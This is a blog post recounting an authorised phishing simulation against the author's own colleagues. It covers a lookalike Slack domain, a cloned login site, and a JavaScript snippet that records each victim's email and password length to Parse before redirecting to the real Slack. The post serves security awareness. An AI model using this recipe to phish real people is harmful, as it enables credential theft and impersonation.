 ```yaml
---
path: /posts/64-hacking-your-own-company
title: "Hacking your own company"
date: 18/11/2015
tags:
  - development
---
```


I have a confession to make. A while ago I hacked my own company.

##Motivation

You might be wondering why someone would hack his own company. A company like Subvisual has a transparent communication and processes. So, if I want to know something, all I got to do is ask.

The answer to this question is [Mr. Robot](http://www.imdb.com/title/tt4158110/?ref_=fn_al_tt_1)!
Yes, the TV show.

I’m a big fan of Mr. Robot.
For those of you who don’t know it, it’s a hacker TV series that’s very realistic. Instead of showing some random letters on a terminal they showed the viewers real techniques and exploits.

If you watched the series you certainly have noticed that our favourite hacker Elliot accomplishes some hacks by masquerading as a trustworthy entity and then simply ask for information directly to the victim.

This technique is called a phishing scam and despite being one of the most used exploits on the internet, it’s still one of the most effective.

I was skeptic that people would fall so easily on such a simple exploit so I became very curious on this. After some time I came up with a simple case study:

I wanted to create a phishing scam targeting my co-workers. The goal was to send a fake email to my whole team, containing a link to a malicious site, in order to see how many people would login on it, giving me their credentials.

If you put some thought on the matter your own team members are the perfect test subjects. You spend at least 8 hours per day with them, you know some of their habits, some of their tools and most importantly some of the sites they use and therefore some of the emails they receive. You also have the opportunity to watch first-hand how they will react when they see it.

Now you might be wondering if this is reasonable. After all getting someone’s private information might have a devastating effect on both the victim and the hacker, also worth mentioning that such action is… illegal. Considering that the victim will be sitting next to you this might not seem like a good idea after all. Also worth mentioning that my targets are experienced web developers so their defences are probably a step higher. 

How can this be accomplished in such conditions? If you stick with me a little longer I’ll care to explain.

##Preparation

My first plan was to attack the whole company at once keeping the whole thing secret and then, on a Friday Talk reveal what happened and how many people had fallen. After some days thinking on this and given the reasons above I changed the plan a bit.

The first thing I did was to ask permission and guidance to Roberto, our CEO. He received the idea surprisingly well and like me he was curious to know if our team would be able to recognise a simple phishing scam and if so, how could we improve the company security and awareness. We also shared the same concerns regarding personal information so it was decided that passwords or other relevant information would not be stored. The only thing that I would try to capture was the password length as proof that the given person had been victim of the attack.

With this set I began to prepare the hack.

After some time observing the team I noticed that most of our internal communication is done on [Slack](https://slack.com/), [Trello](https://trello.com/) and [GitHub](https://github.com/). The emails that we received are mostly notifications from these apps so I started to analyse how easily I could create a clone of those and trick my coworkers to login to it.

My weapon of choice was Slack. The main reason for this was the fact that almost all of our important communication is generated on it. Theoretically if someone received an important email saying that he/she missed an important message this person should follow the link to catch up.

Here’s an example of a normal notification email from Slack:

![Regular Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/67/image-1447699776511.png)

The email itself shows the missing mention so you might think that this not an ideal situation. For an efficient phishing scam we usually need some content that requires an action, a hook that leads the victims to follow a malicious link.

For this to work I needed to change the content by inserting a partial message and a call to action button, but maintain the familiar layout and appearance.

##Building the attack

This is the geeky part but there is not much to it on this field. All we need is a simple static web page and some place to save the emails and password lengths.

I chose to host the page on [GitHub Pages](https://pages.github.com/) and to use [Parse](https://parse.com/) as my attack storage for the sake of simplicity.

Then I started searching for a domain that resembled slack.com and indeed I found one available - slaack.co.

To clone the whole slack.com site I used an app called SiteSucker. This duplicates the site directory structure and files on your machine meaning that my cloned slack would look exactly like the original even on mobile.

With this set getting the emails and passwords lengths was very easy. I just removed the code from the login form and added some lines:

```
Parse.initialize(‘xxxxxx’,’xxxxxx’);

var ScammedUser = Parse.Object.extend(‘ScammedUser’);
var scammedUser = new ScammedUser();
	
function onSubmitKey(e) {
  if (e.keyCode == 13)
    onSubmit();
}
	
function onSubmit() {
  var accountDetails = {
    email: $(‘#email’).val(),
    password: $(‘#password’).val().length
  };
			
  if (!accountDetails.email ||
      !accountDetails.password)
    return;
	
  scammedUser.save(accountDetails)
    .then(function(object) {
      console.log(‘Success’, accountDetails);
      window.location.href = realSlackLink;
    });
}
```

Finally, the fake email looked like this:

![Fake Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/68/image-1447699815368.png)

##Attacking

This whole thing was online for more than 3 days, ready and waiting for the perfect opportunity. I chose to strike on a Thursday by the end of the day as people left the office. I sent the fake email. That way, as people arrived home, they would see an email notification from the team. Even better, they would see a notification from their CEO on a channel called “#secretProject” so the curiosity factor was involved.

##Results

In the end 20% of our team fell on the attack (all of them are developers). While this number might seem acceptable, it is not. On such a sensible platform like Slack, where most of our company's communication happens, a malicious attacker only needed one person to gain access to privileged information. Also worth noticing that if someone gained access to Slack this person could easily try to impersonate the victim in order to collect other information from the victim’s coworkers.

I presented this results on a Friday Talk and after some discussion I understood the rest of the people didn’t open the link only because they didn't care about Slack email notifications. I also presented some context and countermeasures about phishing attacks that helped raising the awareness for this kind of vulnerability.

The most important lessons taking from this are:

-
Nobody is safe from being victim of a phishing attack, even experienced developers can easily be victims.

-
It’s hard to identify fake communication from the platforms we use every day. We don’t pay that much attention to it so it’s only natural that our defences are lower than normal.

-
People now better understand the importance of security measures like two factor authentication.

-
It was fun and a completely different approach to this security theme; by feeling the problem people understand better that they need to create defences against such attacks.

On the end what I have to tell you is to go ahead and do the same on your company. It’s easier to construct defences with a real understanding of the problem than just trying to fight something that was not experienced by anyone.

I will try to identify and correct more weaknesses in Subvisual and I hope you will do the same at your own work place.

Happy hacking.
